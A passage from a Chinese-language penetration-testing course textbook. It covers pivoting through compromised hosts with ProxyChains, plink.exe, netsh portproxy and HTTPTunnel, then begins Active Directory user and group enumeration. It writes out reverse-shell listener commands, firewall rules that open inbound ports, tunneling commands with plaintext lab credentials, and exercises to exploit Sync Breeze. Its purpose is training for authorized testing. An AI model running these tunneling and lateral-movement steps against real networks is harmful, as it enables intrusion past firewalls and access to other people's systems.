S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:143--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:995--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:110--timeout

Nmap scan report for 192.168.1.110

Host is up (0.17s latency).

PORT     STATE SERVICE

21/tcp   closed ftp

22/tcp   closed ssh

23/tcp   closed telnet

25/tcp   closed smtp

53/tcp   open  domain

80/tcp   closed http

110/tcp  closed pop3

111/tcp  closed rpcbind

135/tcp  open  msrpc

139/tcp  open  netbios-ssn

143/tcp  closed imap

443/tcp  closed https

445/tcp  open  microsoft-ds

993/tcp  closed imaps

995/tcp  closed pop3s

1723/tcp closed pptp

3306/tcp closed mysql

3389/tcp open  ms-wbt-server

5900/tcp closed vnc

8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 3.54 seconds
```

### 清单 644 - 使用 nmap 通过动态隧道扫描机器

在清单 644 中，`ProxyChains` 按预期工作，动态地将所有流量路由到各个端口，而无需提供单独的端口转发。

> 默认情况下，`ProxyChains` 会尝试首先从当前目录读取其配置文件，然后从用户的 `$(HOME)/proxychains` 目录读取，最后从 `/etc/proxychains.conf` 读取。这使我们能够根据需求通过多个动态隧道运行工具。

### 20.2.3.1 练习

- 1. 连接到你的专用 Linux 实验客户端，并以 root 用户运行 `/root/port_forwarding_and_tunneling/` 中的 `clear_rules.sh` 脚本。
- 2. 记录 Linux 客户端和 Windows Server 2016 的 IP 地址。
- 3. 在你的 Kali 机器上创建一个 SOCKS4 代理，通过 Linux 目标进行隧道传输。
- 4. 通过该代理对 Windows Server 2016 机器执行一次成功的 `nmap` 扫描。
- 5. 通过隧道执行 `nmap` SYN 扫描。它能正常工作吗？结果准确吗？

### 20.3 PLINK.exe

到目前为止，我们使用的所有端口转发和隧道技术都集中在通常位于 *NIX 系统上的工具上。接下来，让我们探讨如何在基于 Windows 的操作系统上执行端口转发和隧道传输。

为了演示这一点，假设我们在评估过程中通过 Sync Breeze 软件中的漏洞获得了一台 Windows 10 机器的访问权限，并获取了 SYSTEM 级别的反向 shell。

```
kali@kali:~$ sudo nc -lnp 443

listening on [any] 443 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49937

Microsoft Windows [Version 10.0.16299.309]

(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### 清单 645 - 从 Windows 10 机器接收反向 shell

在枚举和信息收集过程中，我们发现一个 MySQL 服务正在 TCP 端口 3306 上运行。

```
C:\Windows\system32> netstat -anbp TCP

netstat -anbp TCP

Active Connections

Proto Local Address           Foreign Address         State

TCP   0.0.0.0:80              0.0.0.0:0               LISTENING

[syncbrs.exe]

TCP   0.0.0.0:135             0.0.0.0:0               LISTENING

[svchost.exe]

TCP   0.0.0.0:445             0.0.0.0:0               LISTENING

Can not obtain ownership information

TCP   0.0.0.0:3306            0.0.0.0:0               LISTENING

[mysqld.exe]
```


## 清单 646 - 识别运行在端口 3306 上的 MySQL 服务

我们希望扫描此数据库或与该服务交互。然而，由于防火墙的存在，我们无法直接从我们的 Kali 机器与该服务交互。

我们将 `plink.exe`^[594]（一个基于 Windows 的命令行 SSH 客户端，是 PuTTY 项目的一部分）传输到目标系统，以克服这一限制。该程序的语法类似于基于 UNIX 的 ssh 客户端：

```
C:\Tools\port_redirection_and_tunneling> plink.exe

plink.exe

Plink: command-line connection utility

Release 0.70

Usage: plink [options] [user@]host [command]

      ("host" can also be a PuTTY saved session name)

Options:

-V        print version information and exit

-pgp      print PGP key fingerprints and exit

-v         show verbose messages

-load sessname Load settings from saved session

-ssh -telnet -login -raw -serial

          force use of a particular protocol

-P port    connect to specified port

-l user    connect with specified username

-batch     disable all interactive prompts

-proxycmd command

          use 'command' as local proxy

-sercfg configuration-string (e.g. 19200,8,n,1,X)

          Specify the serial configuration (serial only)

The following options only apply to SSH connections:

-pw passw login with specified password

-D [listen-IP:]listen-port

          Dynamic SOCKS-based port forwarding

-L [listen-IP:]listen-port:host:port

          Forward local port to remote address

-R [listen-IP:]listen-port:host:port

          Forward remote port to local address

-X -x      enable / disable X11 forwarding

-A -a      enable / disable agent forwarding

-t -T      enable / disable pty allocation

...
```

^[594] （西蒙·塔瑟姆，2002 年），http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html

## 清单 647 · plink.exe 帮助菜单

我们可以使用 `plink.exe` 通过 SSH (`-ssh`) 连接到我们的 Kali 机器 (`10.11.0.4`)，使用 kali 用户 (`-l kali`)，密码为“ilak” (`-pw ilak`)，创建从 Windows 目标的 MySQL 端口 (`127.0.0.1:3306`) 到端口 1234 (`10.11.0.4:1234`) 的远程端口转发 (`-R`)，命令如下：

```
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

## 清单 648 · 尝试在未知主机上设置远程端口转发

`plink` 首次连接到主机时，会尝试在注册表中缓存主机密钥。如果我们通过 `rdesktop` 连接到 Windows 客户端运行该命令，我们可以看到这个交互式步骤：


图 301：PLINK 处理未知主机时所需的交互

然而，由于在典型的反向 shell 中，这种交互级别可能无法正常工作，我们应该使用 `cmd.exe /c echo y` 命令将答案管道输入到提示符中。然后，从我们的反向 shell 中，此命令将成功建立远程端口转发，而无需任何交互。

```
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

> *清单 649 - 使用 plink.exe 建立无需交互的远程隧道*

现在我们的隧道已激活，我们可以尝试通过我们在 TCP 端口 1234 上的本地端口转发，启动对目标 MySQL 端口的 Nmap 扫描：

```
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST

Nmap scan report for localhost (127.0.0.1)

Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION

1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```


> *清单 650 - 通过隧道启动 nmap 扫描 MySQL 服务*

设置似乎运行正常。我们已成功通过 Kali 攻击机器上的远程端口转发，扫描了 Windows 10 机器的 SQL 服务。

## 20.3.1.1 练习

- 通过 Sync Breeze 漏洞在 Windows 实验客户端上获取反向 Shell。
- 使用 `plink.exe` 建立到 Windows 10 客户端上 MySQL 服务的远程端口转发。
- 通过远程端口转发扫描 MySQL 端口。

### 20.4 NETSH

在本节中，我们将考虑以下场景：

在评估过程中，我们通过远程漏洞攻陷了一台 Windows 10 目标机器，并成功提权至 SYSTEM。在对受损机器进行枚举后，我们发现除了连接到当前网络 `10.11.0.x` 外，它还有一个额外的网络接口，似乎连接到了另一个网络 `192.168.1.x`。在这个内部子网中，我们识别出一台 Windows Server 2016 机器 `192.168.1.110`，其 TCP `445` 端口处于开放状态。

为了继续该场景，我们现在可以寻找从 Windows 10 机器上的 SYSTEM 级别 Shell 进入受害者网络进行跳板 `pivot` 的方法。由于我们的权限级别，我们无需处理用户账户控制 `UAC`，这意味着我们可以使用 `netsh` 实用工具 `默认安装在每个现代版本的 Windows 上` 进行端口转发和跳板。

但是，为了使此方法生效，Windows 系统必须正在运行 *IP Helper* 服务，并且必须为我们想要使用的接口启用 IPv6 支持。幸运的是，两者在 Windows 操作系统上默认都是开启且启用的。

我们可以从 Windows 服务程序中检查 *IP Helper* 服务是否正在运行以确认这一点：


我们可以确认网络接口设置中 *IPv6* 的支持情况：


*图 303：已启用 IPv6 支持*

类似于 SSH 本地端口转发示例，我们将尝试将目标为受损 Windows 10 机器 TCP `4455` 端口的流量重定向到 Windows Server 2016 机器的 `445` 端口。

在本例中，我们将使用 `netsh` `interface` 上下文添加一个 IPv4 到 IPv4 `v4tov4` 代理 `portproxy`，该代理在 `10.11.0.22` `listenaddress=10.11.0.22` 的 `4455` 端口 `listenport=4455` 上进行监听，并转发到 Windows 2016 Server `connectaddress=192.168.1.110` 的 `445` 端口 `connectport=445`：

```powershell
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```

*列表 651 - 使用 netsh 进行本地端口转发*

使用 `netstat`，我们可以确认在受损的 Windows 主机上，`4455` 端口正在监听：

```powershell
C:\Windows\system32> netstat -anp TCP | find "4455"
TCP 10.11.0.22:4455 0.0.0.0:0 LISTENING
```

*列表 652 - 检查使用 netsh 完成转发后端口是否已绑定*

默认情况下，Windows 防火墙将禁止 TCP `4455` 端口的入站连接，这将阻止我们与隧道进行交互。鉴于我们是以 SYSTEM 权限运行的，我们可以通过添加一条允许该端口入站连接的防火墙规则轻松解决此问题。

这些 `netsh` 选项不言自明，但请注意，我们允许 `action=allow` 特定的入站 `dir=in` 连接，并利用 `netsh` 的防火墙 `advfirewall` 上下文。

```powershell
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
Ok.
```

*列表 653 - 使用 netsh 允许 TCP 4455 端口的入站流量*

作为最后一步，我们可以尝试使用 `smbclient` 连接到我们在 `4455` 端口上的受损 Windows 机器。如果一切按计划进行，流量应该被重定向，并返回内部 Windows Server 2016 机器上可用的网络共享。

与我们之前的场景一样，Samba 需要配置最低 SMB 版本为 SMBv2。虽然这是多余的，但为了完整性，我们在此处包含命令：

```bash
kali@kali:~$ sudo nano /etc/samba/smb.conf
kali@kali:~$ cat /etc/samba/smb.conf
...
Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
; write list = root, @padmin
min protocol = SMB2
kali@kali:~$ sudo /etc/init.d/smbd restart
[ ok ] Restarting smbd (via systemctl): smbd.service.
kali@kali:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password:
Sharename    Type    Comment
---------    ----    -------
ADMIN$       Disk    Remote Admin
C$           Disk    Default share
Data         Disk
IPC$         IPC     Remote IPC
NETLOGON     Disk    Logon server share
SYSVOL       Disk    Logon server share
Reconnecting with SMB1 for workgroup listing.
**do_connect: Connection to 10.11.0.22 failed (Error NT_STATUS_IO_TIMEOUT)**
**Failed to connect with SMB1 -- no workgroup available**
```

*列表 654 - 通过 NETSH 进行本地端口转发列出 Windows Server 2016 机器上的网络共享*

我们成功列出了共享，但 `smbclient` 生成了一个错误。这种超时问题通常是由端口转发错误引起的，但让我们测试一下，看看我们是否还能与共享进行交互。

```bash
kali@kali:~$ sudo mkdir /mnt/win10_share
kali@kali:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@kali:~$ ls -l /mnt/win10_share/
total 1
-rw-r--r--x 1 root root 7 Apr 17 2019 data.txt
kali@kali:~$ cat /mnt/win10_share/data.txt
data
```


*列表 655 - 通过端口转发挂载 Windows 2016 Server 机器上可用的远程共享*

如上所示，这个错误阻止了我们列出工作组，但并不影响我们挂载共享的能力。端口转发是成功的。

## 20.4.1.1 练习

- 通过 Sync Breeze 漏洞在 Windows 实验客户端上获取反向 Shell。
- 使用 SYSTEM Shell，尝试使用 `netsh` 复制端口转发示例。

### 20.5 通过深度包检测进行 HTTP 隧道

到目前为止，我们已经穿过了基于端口过滤器和状态检测的防火墙。然而，某些深度包内容检测设备可能只允许特定协议。例如，如果 SSH 协议不被允许，那么所有依赖此协议的隧道都将失败。

为了演示这一点，我们将考虑一个新的场景。类似于我们的 *NIX 场景，假设我们已利用漏洞攻陷了一台 Linux 服务器，将权限提升为 `root`，并且获取了该机器上 `root` 和 `student` 用户的密码。

尽管我们攻陷的 Linux 服务器实际上并没有实施深度包检测，但为了本节的目地，我们将假设实施了一种仅允许 HTTP 协议的深度包内容检测功能。与之前的场景不同，基于 SSH 的隧道在这里将不起作用。

此外，此场景中的防火墙仅允许 80、443 和 1234 端口的入站和出站通信。允许 80 和 443 端口是因为该机器是一台 Web 服务器，而 1234 端口显然是一个疏漏，因为它目前并未映射到内部网络中的任何监听端口。

为了模拟此场景，我们将在我们的专用 Linux 客户端上运行 `http tunneling.sh` 脚本：

```bash
root@debian:~# cat /root/port_forwarding_and_tunneling/http_tunneling.sh

#! /bin/bash

# Clear iptables rules

iptables -P INPUT ACCEPT

iptables -P FORWARD ACCEPT

iptables -P OUTPUT ACCEPT

iptables -F

iptables -X

# SSH Scenario

iptables -F

iptables -P INPUT DROP

iptables -P FORWARD DROP

iptables -A INPUT -i lo -j ACCEPT

iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

iptables -A INPUT -p tcp --dport 80 -m state --state NEW -j ACCEPT

iptables -A INPUT -p tcp --dport 443 -m state --state NEW -j ACCEPT

iptables -A INPUT -p tcp --dport 1234 -m state --state NEW -j ACCEPT

iptables -A INPUT -i lo -j ACCEPT

root@debian:~# /root/port_forwarding_and_tunneling/http_tunneling.sh
```

*列表 656 - `http_tunneling.sh` 脚本的内容*

在这种情况下，我们的目标是从我们的 Kali Linux 机器通过攻陷的 Linux 服务器，仅使用 HTTP 协议建立到 Windows Server 2016 的远程桌面连接。

## 20.5.1.1 练习

- 1. 使用 `rdesktop` 以 `student` 账户连接到专用的 Linux 实验室客户端，并以 `root` 身份运行 `/root/port_forwarding_and_tunneling/` 目录下的 `http_tunneling.sh` 脚本。
- 2. 启动 `apache2` 服务，利用托管在 443 端口上的存在漏洞的 Web 应用程序（在之前的模块中已介绍）以获取反向 HTTP shell。[^599]
- 3. 使用你的专用客户端复现上述演示的场景。

## 20.6 总结

在本模块中，我们介绍了端口转发和隧道技术的概念。该模块包含可用于 Windows 和 *NIX 操作系统的工具，这些技术允许我们绕过各种出口限制以及深度包检测设备。

> 599 (Apurv Singh Gautam, 2019), https://github.com/apurvingshgaotam/HTTP-Reverse-Shell

我们将依赖 `HTTPTunnel` $ ^{596} $ 将流量封装在 HTTP 请求中，创建一个“HTTP 隧道”。`HTTPTunnel` 使用客户端/服务器模型，我们需要先安装该工具，然后分别运行客户端和服务器。

> `stunnel` $ ^{597} $ 工具与 `HTTPTunnel` $ ^{598} $ 类似，可以以类似的方式使用。它是一个多平台、GNU/GPL 许可的代理，使用 SSL/TLS 加密任意 TCP 连接。

我们可以从 Kali Linux 软件库中按以下方式安装 `HTTPTunnel`：

```
kali@kali:~$ apt-cache search httptunnel
httptunnel - Tunnels a data stream in HTTP requests
kali@kali:~$ sudo apt install httptunnel
...
```

列表 657 - 从 Kali Linux 软件库安装 `HTTPTunnel`

在深入细节之前，我们将描述我们要实现的流量流向。

首先，请记住我们在内部 Linux 服务器上有一个 shell。这个 shell 是基于 HTTP 的（这是防火墙允许通过的唯一协议），我们通过 TCP 端口 443（易受攻击的服务端口）连接到它。

我们将在这台机器上创建一个绑定到 8888 端口的本地端口转发，该转发会将所有连接重定向到 Windows 服务器的 3389 端口，即远程桌面端口。请注意，由于两台机器位于同一网络中且流量不经过深度包检测设备，因此该端口转发不受 HTTP 协议限制的影响。然而，当我们尝试从 Linux 服务器连接到基于互联网 Kali Linux 机器时，协议限制会给我们带来问题。这就是为什么我们的基于 SSH 的隧道会因协议被禁止而受阻。

为了解决这个问题，我们将使用 `HTTPTunnel` 在机器之间创建一个基于 HTTP 的隧道（这是允许的协议）。此 HTTP 隧道的“输入端”将位于我们的 Kali Linux 机器的 `localhost` 端口 8080 上，而隧道的“输出端”将指向被入侵的 Linux 机器的监听端口 1234（穿过防火墙）。在这里，HTTP 请求将被解封装，流量将被交给监听端口 8888（仍然在被入侵的 Linux 服务器上），并通过我们基于 SSH 的本地转发重定向到 Windows 目标的远程桌面端口。

当设置完成后，我们将发起到我们 Kali Linux 机器 `localhost` 端口 8080 的远程桌面会话。该请求将经过 HTTP 封装，作为 HTTP 流量通过 `HTTPTunnel` 发送到 Linux 服务器的 1234 端口，解封装，最后发送到我们 Windows 目标的远程桌面端口。

在继续之前，请花点时间理解这个 admittedly 复杂的流量流向。带有封装的端口转发可能很复杂，因为我们要考虑防火墙规则、协议限制以及入站和出站端口分配。通常有帮助的做法是暂停一下，像在下面的图 304 中那样写一张地图或流程图，然后再执行实际命令。这个过程本身就很复杂，如果试图同时理清逻辑流程和语法，会更加困难。


为了开始构建我们的隧道，我们将创建一个在被入侵的 Linux 机器和 Windows 远程桌面目标之间的基于 SSH 的本地端口转发。请记住，这里的协议无关紧要（SSH 是被允许的），因为此流量不受内部网络上深度包检测的影响。

为此，我们将创建从这台机器 (`127.0.0.1`) 的本地转发 (`-L`)，并以 `student` 身份登录，使用我们在后渗透阶段创建的新密码。我们将把 8888 端口 (`0.0.0.0:8888`) 上的所有请求转发到 Windows 服务器的远程桌面端口 (`192.168.1.110:3389`)：

```
www-data@debian:~$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
```


ECDSA key fingerprint is SHA256:RdJ3nCwLcxEG+c6nSHi13N6QykXAbDJkRma3cLtknnuJ0.

Are you sure you want to continue connecting (yes/no)?

`yes`

Failed to add the host to the list of hosts (`/var/www/.ssh/known_hosts`).

`student@127.0.0.1's password:` `lab`

...

`student@debian:~$` `ss -antp | grep "8888"`

```
```

`student@debian:~$` `hts --forward-port localhost:8888 1234`

`hts --forward-port localhost:8888 1234`

`student@debian:~$` `ps aux | grep hts`

`ps aux | grep hts`

`student 12880 0.0 0.0 2420 68 ? Ss 07:49 0:00 hts --forward-port localhost:8888 1234`

`student 12084 0.0 0.0 4728 836 pts/4 S+ 07:49 0:00 grep hts`

`student@debian:~$` `ss -antp | grep "1234"`

`ss -antp | grep "1234"`

```
LISTEN 0 1 *:1234 *:* users:(("hts",pid=12080,fd=4))
```

`ps` 和 `ss` 命令显示 HTTPtunnel 服务器已启动并正在运行。

接下来，我们需要一个 HTTPtunnel 客户端，它接收我们的远程桌面流量，将其封装到 HTTP 流中，并发送到正在监听的 HTTPtunnel 服务器。这个 `htc` 命令将在 localhost 的 8080 端口上监听 `--forward-port 8080`。它将把流量封装为 HTTP，并穿过防火墙转发到监听端口 1234 上的 HTTPtunnel 服务器 `10.11.0.128:1234`：

```
kali@kali:~$ htc --forward-port 8080 10.11.0.128:1234
```

`kali@kali:~$` `ps aux | grep htc`

`kali 10051 0.0 0.0 6536 92 ? Ss 03:33 0:00 htc --forward-port 8080 10.11.0.128:1234`

`kali 10053 0.0 0.0 12980 1056 pts/0 S+ 03:33 0:00 grep htc`

`kali@kali:~$` `ss -antp | grep "8080"`

```
LISTEN 0 0 0.0.0.0:8080 0.0.0.0:* users:(("htc",pid=2692,fd=4))
```


同样，`ps` 和 `ss` 命令显示 HTTPtunnel 客户端已启动并正在运行。

现在，所有发送到我们 Kali Linux 机器 TCP 端口 8080 的流量都将被重定向到我们的 HTTPtunnel（在那里它被 HTTP 封装，穿过防火墙发送到被入侵的 Linux 服务器并解封装），然后再次重定向到 Windows 服务器的远程桌面服务。

我们可以通过启动 Wireshark 嗅探流量并验证其确实被 HTTP 封装，然后在对我们 Kali Linux 机器的监听端口 8080 发起远程桌面连接之前来验证这是否正常工作：


*图 305：通过 HTTP 隧道在 Windows Server 2016 机器上进行 RDP 登录*

太好了！远程桌面连接成功了。

检查 Wireshark 中的流量，我们确认它确实被 HTTP 封装，并且可以绕过深度包内容检测设备。


*图 306：在 Wireshark 中检查 HTTP 封装的流量*

+   $ ^{596} $ (Sebastian Weber, 2010), http://http-tunnel.sourceforge.net/
+   $ ^{597} $ (Stunnel, 2019), https://www.stunnel.org/
+   $ ^{598} $ (Sebastian Weber, 2010), http://http-tunnel.sourceforge.net/

## 21. Active Directory 攻击

Microsoft Active Directory 域服务,<sup>600</sup>通常简称为 Active Directory (AD)，是一种允许系统管理员大规模更新和管理操作系统、应用程序、用户以及数据访问的服务。由于 Active Directory 可以是一个高度复杂且细粒度的管理层，它带来了巨大的攻击面，因此值得特别关注。

在本模块中，我们将介绍 Active Directory，并演示枚举、认证和横向移动技术。

### 21.1 Active Directory 理论

在我们进入枚举和利用之前，让我们先简要概述一下基本的 Active Directory 概念和术语，以此奠定基础。

Active Directory 由几个组件组成。最重要的组件是域控制器 (DC),<sup>601</sup>它是一个安装了 Active Directory 域服务角色的 Windows 2000-R2 服务器。域控制器是 Active Directory 的枢纽和核心，因为它存储了关于特定 Active Directory 实例如何配置的所有信息。它还执行各种各样的规则，这些规则规定了给定 Windows 域内的对象之间如何交互，以及终端用户可以使用哪些服务工具。Active Directory 的强大功能及其复杂性，建立在网络管理员可用的控制具有惊人的细粒度这一基础上。

> "Windows 服务器操作系统有三个不同的版本。第一个是原始的“桌面体验”版本。随着 Windows Server 2008 R2 引入的 Server Core,<sup>602</sup>是一种没有专用图形界面的最小化服务器安装。最近的版本是 Server Nano,<sup>603</sup>它是在 Windows Server 2016 中引入的，甚至比 Server Core 更加精简。标准的“桌面体验”版本和 Server Core 版本都可以作为域控制器运行。Nano 版本不可以。"

当配置 Active Directory 实例时，会创建一个域，名称类似于 corp.com，其中 corp 是组织的名称。在这个域内，我们可以添加各种类型的对象，包括计算机对象和用户对象。

系统管理员可以（并且几乎总是）借助组织单位 (OU) 来组织这些对象。<sup>604</sup>OU 类似于文件系统中的文件夹，它们是用于存储和分组其他对象的容器。计算机对象代表实际的服务器和工作站，这些设备是*加入域的*（属于该域的一部分），而用户对象代表组织中的员工。所有 AD 对象都包含属性，这些属性根据对象类型而异。例如，用户对象可能包含姓名、姓氏、用户名和密码等属性。

通常，内部网络上的客户端计算机连接到域控制器以及各种其他内部成员服务器，例如数据库服务器、文件存储服务器等。此外，许多组织通过连接到互联网的网络服务器提供内容，这些服务器有时也是内部域的成员。

> 需要注意的是，一些组织会有未加入域的机器。这对于面向互联网的机器来说尤其常见。

从技术上讲，Active Directory 可能令人生畏，因为它包含了许多我们无法在本模块中全面涵盖的概念和功能。相反，我们将介绍基本的 AD 术语和语言，以及构建我们的枚举和利用能力所需的额外知识。

> Active Directory 环境对域名系统 (DNS) 服务具有非常关键的依赖关系。因此，典型的 AD 域控制器通常也托管一个对于特定域具有权威性的 DNS 服务器。请注意，在实验室环境中，您还可能找到与 Active Directory 无关的 DNS 服务器，它们为其他计算机提供查询服务。

### 21.2 Active Directory 枚举

通常，针对 Active Directory 基础设施的攻击始于对域工作站或服务器成功利用或客户端侧攻击，随后是对 AD 环境的枚举。

> 一些渗透测试从假设的违规开始，其中客户端提供对工作站的初始访问权限。这节省了时间，加速了评估，并允许花费更多时间评估其余的内部基础设施，包括 Active Directory。

一旦我们建立了立足点，目标就是提升我们的权限级别，直到我们获得一个或多个域的控制权。有几种方法可以实现这一点。

在 AD 内部，管理员使用组来向成员用户分配权限，这意味着在我们的评估过程中，我们将瞄准高价值组。在这种情况下，我们可以破坏 *Domain Admins*（域管理员）组的一个成员，从而获得对域中每台计算机的完全控制。

获得域控制权的另一种方法是成功破坏域控制器，因为它可能被用于修改所有加入域的计算机或在它们上执行应用程序。此外，正如我们稍后将看到的，域控制器包含了每一个域用户帐户的所有密码哈希值。

在学习本模块的过程中，我们将通过一系列 AD 枚举和利用技术来演示典型的域入侵。在现实场景中，我们可以使用前面模块中概述的许多 Windows 枚举和利用技术。然而，在本模块中，我们将重点介绍专门设计用于枚举和利用 AD 用户和组的技术。

我们将基于以下假设：我们已经通过本课程之前介绍的技术获得了 Windows 10 工作站的访问权限。我们还将假设我们破坏了 *OffSec* 域用户，该用户也是加入域的工作站的本地管理员组的成员。这将使我们能够专注于 Active Directory 相关的枚举和利用技术。

在这个场景中，我们的第一个目标将是枚举域用户，并尽可能多地了解他们的组成员身份，以寻找高价值目标。为此，我们将利用几种工具和技术，其中许多可以在没有任何管理权限的情况下执行。

#### 21.2.1 传统方法

第一种技术，我们将其称为“传统”方法，利用了内置的 `net.exe`<sup>605</sup>应用程序。具体来说，我们将使用 `net user`<sup>606</sup>子命令，它枚举所有本地帐户。

```
C:\Users\Offsec.corp> net user

User accounts for \\CLIENT251

admin          Administrator       DefaultAccount

Guest          student             WDOGtU1ityAccount

The command completed successfully.
```

Listing 661 - 运行 `net user` 命令

添加 `/domain` 标志将枚举整个域中的所有用户：

```
C:\Users\Offsec.corp> net user /domain

The request will be processed at a domain controller for domain corp.com.

User accounts for \\DC01.corp.com

adam           Administrator      DefaultAccount

Guest          iis_service        jeff_admin

krbtgt              offsec              sql_service

The command completed successfully.
```


### *Listing 662 - 运行 net user domain 命令*

在生产环境中运行此命令可能会返回更长的用户列表。拿着这个列表，我们现在可以查询关于个别用户的信息。

根据上述输出，我们应该查询 *jeff_admin* 用户，因为这个名字听起来很有希望。

> 我们过去的经验表明，管理员往往倾向于在用户名前添加前缀或后缀，以根据账户的功能来识别账户。

```
C:\Users\Offsec.corp> net user jeff_admin /domain

The request will be processed at a domain controller for domain corp.com.

User name		jeff_admin

Full Name		Jeff_Admin

Comment

User's comment

Country/region code	000 (System Default)

Account active		Yes

Account expires		Never

Password last set		2/19/2018 1:56:22 PM

Password expires		Never

Password changeable	2/19/2018 1:56:22 PM

Password required	Yes

User may change password Yes

Workstations allowed	All

Logon script

User profile

Home directory

Last logon			Never

Logon hours allowed	All

Local Group Memberships

Global Group memberships	*Domain Users	*Domain Admins

The command completed successfully.
```

### *Listing 663 - 针对特定用户运行 net user*

输出表明 `jeff_admin` 是 `Domain Admins` 组的成员，因此我们会对此做出记录。

为了枚举域中的所有组，我们可以向 `net group` 命令提供 `/domain` 标志：<sup>607</sup>

<sup>600</sup> (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-do/active-directory-domain-services-overview  
<sup>601</sup> (Microsoft, 2014). https://technet.microsoft.com/library/cc784338(v=ws.10).aspx  
<sup>602</sup> (Microsoft, 2008). https://msdn.microsoft.com/en-us/library/ee391626(v=vs.85).aspx  
<sup>603</sup> (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/get-started/getting-started-with-nano-server  
<sup>604</sup> (Microsoft, 2018). https://technet.microsoft.com/en-us/library/cc978003.aspx  
<sup>607</sup> (Microsoft, 2017), https://technet.microsoft.com/en-us/library/cc754051(v=ws.10).aspx

## 21.2.1.1 练习

- 1. 连接到你的 Windows 10 客户端，并使用 `net.exe` 在域中查找用户和组。看看你是否能发现任何有趣的新用户或组。

## 21.2.2 一种现代化的方法

有一些更现代化的工具能够枚举 AD 环境。像 `Get-ADUser` ^626 这样的 PowerShell cmdlet 效果很好，但它们默认只安装在域控制器上

626 (Microsoft, 2018), https://docs.microsoft.com/en-us/powershell/module/addsadministration/get-aduser?view=win10-ps

（作为 RSAT $ ^ { 609 } $ 的一部分），虽然它们可能安装在 Windows 7 及更高版本的 Windows 工作站上，但使用它们需要管理员权限。

然而，我们可以使用 PowerShell（Windows 首选的管理脚本语言）来枚举 AD。在本节中，我们将开发一个脚本，该脚本将枚举 AD 用户以及这些用户账户的所有属性。

虽然这不像运行 `net.exe` 这样的命令那么简单，但该脚本将非常灵活，允许我们根据需要添加功能和函数。在构建脚本时，我们将讨论许多与当前任务相关的技术细节。脚本完成后，我们可以将其复制并粘贴，以便在评估期间使用。

概而言之，该脚本将查询网络以获取主域控制器仿真器（Primary Domain Controller Emulator）和域的名称，搜索 Active Directory，并过滤输出以显示用户账户，然后整理输出以提高可读性。

> 主域控制器仿真器是由域控制器执行的五个操作主角色或 FSMO 角色之一 $ ^ { 610 } $。从技术角度来说，该属性被称为 `PdcRoleOwner`，具有此属性的域控制器将始终拥有关于用户登录和身份验证的最新信息。

该脚本依赖于几个组件。具体来说，我们将使用 `DirectorySearcher` $ ^ { 611 } $ 对象通过轻量级目录访问协议（LDAP） $ ^ { 612 } $ 查询 Active Directory，这是一项由域控制器理解的网络协议，也用于与第三方应用进行通信。

LDAP 是 Active Directory Service Interfaces (ADSI) $ ^ { 613 } $ 提供程序（本质上是一个 API），支持针对 Active Directory 的搜索功能。这将允许我们使用 PowerShell 与域控制器交互，并提取有关域中对象的非特权信息。

我们的脚本将围绕一个非常特定的 LDAP `provider path` $ ^ { 614 } $ 展开，它作为 `DirectorySearcher` .NET 类的输入。该路径的原型如下所示：

```
LDAP://HostName[:PortNumber]/[DistinguishedName]
```


# List 665 - LDAP 提供程序路径格式

要创建此路径，我们需要目标的 `hostname`（在本例中是域控制器的名称）和域的可 distinguished name (DN) $ ^ { 615 } $，它基于特定的域组件 (DC) 具有特定的命名标准。

- 609 (Microsoft, 2018). https://technet.microsoft.com/en-us/library/gg413289.aspx
- 610 (Microsoft, 2014). https://support.microsoft.com/en-gb/help/197132/active-directory-fsmo-roles-in-windows
- 611 (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/system.directoryservices.directorysearcher(v=vs.110).aspx
- 612 (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/aa367008(v=vs.85).aspx
- 613 (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/aa772170(v=vs.85).aspx
- 614 (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/aa436384(v=vs.85).aspx
- 615 (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/aa366101(v=vs.85).aspx

首先，让我们使用 PowerShell 命令发现域控制器的主机名和 DistinguishedName 的组件。

具体来说，我们将使用 `System.DirectoryServices.ActiveDirectory` 命名空间中的 `Domain` 类$^{616}$。`Domain` 类包含一个名为 `GetCurrentDomain`$^{617}$ 的方法，该方法检索当前登录用户的 Domain 对象。

`GetCurrentDomain` 方法的调用及其输出显示在下方的列表中：

```
